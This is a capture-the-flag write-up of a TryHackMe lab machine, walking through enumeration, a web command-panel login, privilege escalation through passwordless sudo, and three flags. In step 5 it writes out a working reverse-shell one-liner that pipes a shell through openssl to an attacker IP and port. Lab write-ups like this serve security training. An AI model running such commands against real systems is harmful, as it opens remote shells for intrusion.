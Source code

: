 # Simple CTF

---

Machine by [ar33zy](https://tryhackme.com/p/ar33zy)

[Tryhackme link](https://tryhackme.com/room/picklerick)

---

Tools Used:

- Kali Linux
- NMAP
- gobuster
- dirbuster
- ncat


---

1.  Nmap Scan

    We'll scan the IP to see what services are running, first, let's visit the website.

    ![](img/picklerick01.png)

2. Website 

    After visiting the website, we can't see anything that gives out any clues or ingridient.

    After visiting the source code we can see the following, a username, we may be able to use a dictionary attack on ssh:

    ![](img/picklerick02.png)

    After a little test with hydra, we can see that the server doesn't allow password access (only with public keys):

    ![](img/picklerick03.png)

3. gobuster & dirbuster

    I've tried to use gobuster to list the available directories and some files on the webserver, i could find a assets folder with a bunch of pics, i ran binwalk on all of them but none resulted in any clues.

    
    ![](img/picklerick04.png)

    The `robots.txt` file has a wierd text, i'll save it for later maybe: 

    ![](img/picklerick05.png)

    After no successful clues i turned to dirbuster to look for php files, and found a `login.php`:

    ![](img/picklerick06.png)

4. Web login

    We can see a login portal, for wich i'll use the user `R1ckRul3s` and password `Wubbalubbadubdub` that we found previously:

    ![](img/picklerick07.png)

    And after logging in we can see the next command prompt, we are executing commands as `www-data` so we'll have limited access (all the other links on the navbar seem to lead to a dead end for the moment, so i'll ignore them):

    ![](img/picklerick08.png)

5. Reverse Shell access

    Then i'll attempt to use a reverse shell that exploits openSSL from [this](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl) website.
   
    `mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s`

    ![](img/picklerick09.png)

    As we can see we've got access to the machine:

    ![](img/picklerick10.png)

6. First Flag

    We can see that there is a .txt file, if we cat that we can see the first flag:

    ![](img/picklerick11.png)

7. Second Flag

    After entering the `/home/` folder we see a couple of user's homes, ubuntu doesn't contain any visible file, but rick does, and there we can find the second flag:

    ![](img/picklerick12.png)

8. Third Flag

    Since we have a reverse shell access, let's try `sudo -l` to see if we have permissions on something:

    ![](img/picklerick13.png)

    As we can see, we've got permissions on all commands without password.

    So let's use sudo to see the contents of user root home folder, and we can see the third flag:

    ![](img/picklerick14.png)